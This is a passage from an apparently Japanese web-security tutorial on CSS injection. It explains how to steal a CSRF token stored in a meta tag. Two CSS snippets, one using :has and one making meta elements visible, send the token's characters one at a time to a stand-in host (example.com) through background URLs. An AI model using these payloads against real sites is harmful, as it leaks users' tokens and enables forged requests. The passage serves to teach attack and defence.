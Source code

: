 `:has` があれば、基本的に無敵です。背景を変更する親要素を指定できるため、好きなように選択できます。

## metaを盗む

データを隠し入力に入れる以外に、一部のウェブサイトではデータを `<meta>` タグに入れることもあります。例えば、`<meta name="csrf-token" content="abc123">` のように。metaタグも不可視要素です。どのように盗むことができるでしょうか？

まず、前の段落の最後に述べたように、`has` は確実に盗む方法です。このように盗むことができます。

```css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

しかし、それ以外にも盗む方法はあります。

`<meta>` タグも不可視ですが、隠し入力とは異なり、CSSを使用してこの要素を可視にすることができます。

```css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

![style](pics/17-02.png)
